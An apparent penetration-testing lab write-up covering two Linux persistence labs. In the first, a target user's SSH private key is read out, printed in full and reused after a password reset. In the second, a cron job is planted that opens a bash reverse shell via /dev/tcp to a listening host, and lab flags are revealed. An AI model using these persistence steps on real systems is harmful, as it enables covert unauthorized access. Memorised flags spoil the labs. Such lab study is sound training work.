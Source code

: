 # 🔬Linux Persistence

## Lab 1 - SSH

> 🔬 [Maintaining access I](https://www.attackdefense.com/challengedetails?cid=954)
>
> - Target IP: `192.3.140.3`
> - **Persistence** via **SSH Keys**, even after user credentials are modified
> - Initial credentials: `student `:`password `

```bash
ip -br -c a
	192.3.140.2/24
```

```bash
ssh student@192.3.140.3
```

### SSH Keys

```bash
ls -al
    drwxr-xr-x 1 student student 4096 Apr 29 13:40 .
    drwxr-xr-x 1 root    root    4096 Apr 26  2019 ..
    -rw------- 1 student student    7 Apr 29 13:40 .bash_history
    drwx------ 2 student student 4096 Apr 29 13:39 .cache
    drwxr-xr-x 1 root    root    4096 Apr 26  2019 .ssh
    -rw-r--r-- 1 student student   91 Apr 26  2019 wait

cat wait
    Delete this file to trigger connection reset.
    Delete it only after planting the backdoor.

cd .ssh
ls
	authorized_keys  id_rsa
```

- Show the **private key** inside `id_rsa`

```bash
cat id_rsa

-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEA3JH1zC1WJuJ2KCPf1UdJe1dX+Uh4aE9RKsnuQk124eOB601/
8+Q6uJej38goVYQ7Dc4INK9Pq9cOs+uDQfRdjS1/9S7a0bDVORR6Q/E3dya0RDsz
LcaqX6LkPgnBZ2gS37E4mX6kiwEvYeqaAGyFqyfn+QPLos/Znc3EA4A71LPFg01b
AmpI6Gbaa7UUG+MCZoM0qDNo5Mzr5bmtCnVOKQ6n0Qx7znu5A2p00TfzmAo7erZ8
6xJUfXQoVFzqmINqhZKFZtjgV5nk/qHgn1BPyd6NoWeXADdIJKi7iq4jomT+Ny+/
HlxrAs1IJhxtrSExSMTkqmH/3KeX9ibBWXzY1QIDAQABAoIBAEO0liOvgvN6rlRR
9sJMGJVA0WNWyIcUWdDtnTJC/wwFvvqQlocx9oh1G7t0gFUHuuzY4pHxgl44LG40
C91x+kl8vvtu/4JAaqMT0xgJ8kGj4s/S8DnL8r5ajP8yFWj9fFWn27zaL/3vRjEj
R1R7+2f3XvCEJrz6Wk1jPRjqAvOeDRGH3ojsQwWO7k/FcvtqVBCPTGxyUBzXYv06
fM3OY5NL8D7t/bLoHa8dVhqjPnfUR7/IpiAdxEam1X0ObPB5YyBwSlpj6h904bF/
+U697IE23xjVmKMKcvTLe6QAxuRGSMf3/k3rCpDd3UxYF+P2e0CK3MefWjKpAe8r
2xRXyB0CgYEA+7zgmuhJqjik8tbt6b6+ZAJZ68TqLE1f3YEW/LivMeMj5tQZo/w+
0ZJnr6hR3eicMMxWKufGXSEtbs1TzMGvA5SXI9MTu62a5A2h7NDbLuKRwdjh9Qv6
TocFSMTSFcS4jvmbeYlVaSZWrJLLKY6lsjgdjDB4DH7Uc0Anxdr//GsCgYEA4E39
rlB7GWoCX7oXpSEGCHkQkmgX5IDU7+UUySFqD8fWoLsAc47R/TmDsKI+x83PF5jG
oo5P5LmUIeqnAKknTSyfD1YFtMa3tpTE68R9j/uueTK7v5izwWQjicmILm4RdkZJ
TVVH2b0aIQaUnpWWwHLa+BYx2jH4S2GxH89vz78CgYEA211SyApFLw0fR/Hc7kRm
OlYGL7qvaR2fvTDhbCYvnKRXQ61uDoUf5JXUvrBJbrtlZ+yX5dmE9OCVa6mHLbVV
oiQYtIIZ/wCgKbxrbybs6OVMqIQrGtNuMoHcK/Y/L/L19Lk0L2tqPy/GdamRWkxQ
vYXC0cfmxNS8oxWz0uktCrMCgYB6ufF9OMfBxgD6g4WAciss46CvmojIG71mbL8M
tV2kuMC0PN0oXRKELL3jHUKga/lNfefg9WC9UtS8IfmyINtCHJIDABwrJzdJjOiZ
326cIyb5ZUrYsCJaRAI117DNRqgDQL3GtEyV1CPBwin7Avny3mT0rKAmNIUYKaGS
OBuDXQKBgQDIRYOZEaV8rXx3wN24NYuByNUpRM3AIyPIwAuaPklWD6D2KdDveheI
lZtRb6Yzzmeon0DuLPdl7e/R7e5Z8Mx3o40aiJLULlw95JqON3J3W471PZAG1L/g
59PKgUMBNVX9UsUqvHyWlcY/FAT9UhWblgDoN3uXY9Db6q5x7hWzKw==
-----END RSA PRIVATE KEY-----
```

- Check the [`authorized_keys`](https://www.ssh.com/academy/ssh/authorized-keys-file) file too

```bash
cat authorized_keys
    ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDckfXMLVYm4nYoI9/VR0l7V1f5SHhoT1Eqye5CTXbh44HrTX/z5Dq4l6PfyChVhDsNzgg0r0+r1w6z64NB9F2NLX/1LtrRsNU5FHpD8Td3JrREOzMtxqpfouQ+CcFnaBLfsTiZfqSLAS9h6poAbIWrJ+f5A8uiz9mdzcQDgDvUs8WDTVsCakjoZtprtRQb4wJmgzSoM2jkzOvlua0KdU4pDqfRDHvOe7kDanTRN/OYCjt6tnzrElR9dChUXOqYg2qFkoVm2OBXmeT+oeCfUE/J3o2hZ5cAN0gkqLuKriOiZP43L78eXGsCzUgmHG2tITFIxOSqYf/cp5f2JsFZfNjV root@localhost
```

### Persistence

- Exit the `SSH` session and download the `id_rsa` file

```bash
scp student@192.3.140.3:~/.ssh/id_rsa .
chmod 400 id_rsa
```

- Log back into the target system and trigger the password and connection reset

```bash
ssh student@192.3.140.3
rm wait
# Old student's password do not work anymore
```

- Connect to the target using the downloaded private key

```bash
ssh -i id_rsa student@192.3.140.3
```



<details>
<summary>Reveal Flag: 🚩</summary>



`689227a4f1b97afe1ff5ebaf85babc19`

![](.gitbook/assets/image-20230429155121140.png)

</details>



> 📌 Instead of using a user's private key, typically the attacker generates an SSH key pair on his system, keeps the private key on his system, transfers the public key onto the target system user's home `.ssh` directory and adds it in the `authorized_keys` file.
>
> - [SSH Penetration Testing](https://www.hackingarticles.in/ssh-penetration-testing-port-22/)

------

## Lab 2 - Cron Jobs

> 🔬 [T1168: Local Job Scheduling](https://www.attackdefense.com/challengedetails?cid=1553)
>
> - Target IP: `192.175.36.3`
> - **Persistence** via **Cron Jobs**
> - Initial credentials: `student `:`password `
> - 🔬 Check the [Cron Jobs Linux attacks Lab here](../1-system-attack/linux-attacks/cron.md)

- [Scheduled Task/Job - MITRE ATT&CK](https://attack.mitre.org/techniques/T1053/)
- [crontab.guru](https://crontab.guru/)

![](.gitbook/assets/image-20230429160832734.png)

```bash
ip -br -c a
	192.175.36.2/24
```

```bash
ssh student@192.175.36.3
```

### Cron Jobs

```bash
ls -al
    drwxr-xr-x 1 student student 4096 Apr 29 14:04 .
    drwxr-xr-x 1 root    root    4096 Apr 26  2019 ..
    -rw------- 1 student student   18 Apr 29 14:04 .bash_history
    drwx------ 2 student student 4096 Apr 29 14:04 .cache
    -rw-r--r-- 1 student student   91 Apr 26  2019 wait

cat wait
    Delete this file to trigger connection reset.
    Delete it only after planting the backdoor.
```

```bash
cat /etc/cron*
```

![](.gitbook/assets/image-20230429161108392.png)

### Persistence

- Create a **new Cron job** as the `student` user
  - The command inside the cron job will be executed with the `student`'s permissions'

```bash
echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/192.175.36.2/1234 0>&1'" > cron

crontab -i cron
crontab -l
```

![](.gitbook/assets/image-20230429161420696.png)

- Log back into the target system and trigger the password and connection reset

```bash
ssh student@192.175.36.3
rm wait
# Old student's password do not work anymore
```

- Setup a `nc` listener and wait for the `bash reverse shell` from the cron job **that runs every minute**

```bash
nc -nvlp 1234
```

![](.gitbook/assets/image-20230429162413607.png)



<details>
<summary>Reveal Flag: 🚩</summary>



`79969e32981f722464fde4ce7f208883`

![](.gitbook/assets/image-20230429162434591.png)

</details>

------

